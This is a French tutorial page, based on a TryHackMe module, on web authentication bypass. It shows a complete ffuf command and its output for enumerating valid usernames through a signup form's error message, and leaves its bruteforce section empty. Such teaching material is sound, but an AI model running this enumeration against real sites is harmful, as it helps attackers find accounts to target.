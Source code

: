 ```yaml
---
sidebar: auto
---
```

# Contournement de l'authentification 
<Badge type="tip" text="Rédigé le 27/06/2024" />
<Badge type="warning" text="En cours de rédaction" />

Ces failles, connues pour leur criticité, permettent le contournement de l'authentification du client. Cela peut amener à des fuites de données personnelles, et donc leur correction est primordial.

## Énumération du nom d'utilisateur

À moins que l'on ait déjà un nom d'utilisateur auquel on souhaite tenter de se connecter, un exercice simple est de créer une liste des noms d'utilisateur valides.
Pour cela, il suffit de se rendre sur la page d'inscription du site ciblé, et de vérifier si celui-ci indique lorsque l'on entre un nom d'utilisateur déjà existant, si oui, on note les noms d'utilisateur trouvés.

### Utilisation de l'outil ***ffuf***

On peut utiliser l'existence de ce message d'erreur pour produire une liste de noms d'utilisateur valides déjà inscrits sur le système en utilisant l'outil ffuf. L'outil ffuf utilise une liste de noms d'utilisateur couramment utilisés pour vérifier les correspondances.

```bash
┌─[root@dev]─[~/]
└──╼ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://rootdev.fr/signup -mr "Le nom d'utilisateur existe déjà."
```

Dans l'exemple ci-dessus, on retrouve les arguments suivants :
* ***-w*** = emplacement de la wordlist, ici `/usr/share/wordlists/SecLists/Usernames/Names/names.txt`
* ***-X*** = précise la méthode de requête, `GET` par défaut, `POST` dans cet exemple
* ***-d*** = spécifie les données que l'on va envoyer, correspond au formulaire d'inscription :
    * username : FUZZ correspond (pour ffuf) à l'argument où l'on va utiliser le contenu de notre liste
    * email : correspond à l'input de l'adresse mail, rien de sorcier, ici x car on ne le remplit qu'aléatoirement
    * password & cpassword : correspondent aux input du mot de passe et de sa confirmation
* ***-H*** = Ajoute des en-têtes supplémentaires à la demande, ici on utilise `Content-Type` pour que le serveur Web sache que l'on envoie des données de formulaire
* ***-u*** = Indique l'URL ciblé
* ***-mr*** = Le texte exact affiché sur la page lorsque l'erreur apparaît

Après avoir executé la commande, on entre les noms d'utilisateurs trouvés dans un fichier texte.

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://rootdev.fr/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 285ms]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 125ms]
```

## Bruteforce



::: info Sources
Ce cours s'inspire (et utilise les images) de TryHackMe.com de la chambre "*Introduction to Web Hacking*" :
https://tryhackme.com/module/intro-to-web-hacking
:::
